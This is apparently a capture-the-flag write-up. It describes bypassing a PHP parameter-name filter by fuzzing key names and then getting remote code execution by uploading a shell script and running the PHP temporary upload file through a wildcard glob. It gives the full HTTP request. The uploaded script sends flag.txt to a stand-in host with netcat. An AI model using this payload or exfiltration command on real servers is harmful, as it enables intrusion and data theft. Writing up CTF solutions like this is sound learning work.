 ## Solution
#### bypass substrcount($qs, '') > 0

I just fuzzed the HTTP GET param key name, found three available chars:
```
set parameter ?c.m.d=
set parameter ?c+m+d=
set parameter ?c m d=
set parameter ?c[m[d=
```
the second and the third seem the same thing.
and `c[md` works but `c[m[d` does not.

#### leads to rce
```
POST /?c.m.d=`.%20/???/[[-{]???????[@-[]` HTTP/1.1
Host: 192.168.159.132:5001
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.18.4
Content-Length: 177
Content-Type: multipart/form-data; boundary=449cd8bede5c423bbec7773e557e39da

--449cd8bede5c423bbec7773e557e39da
Content-Disposition: form-data; name="file"; filename="file"


#!/bin/sh

cat flag.txt|nc hacker.com 1337

--449cd8bede5c423bbec7773e557e39da--

```

#### Reference
* https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html
* https://gynvael.coldwind.pl/download.php?f=PHP_LFI_rfc1867_temporary_files.pdf
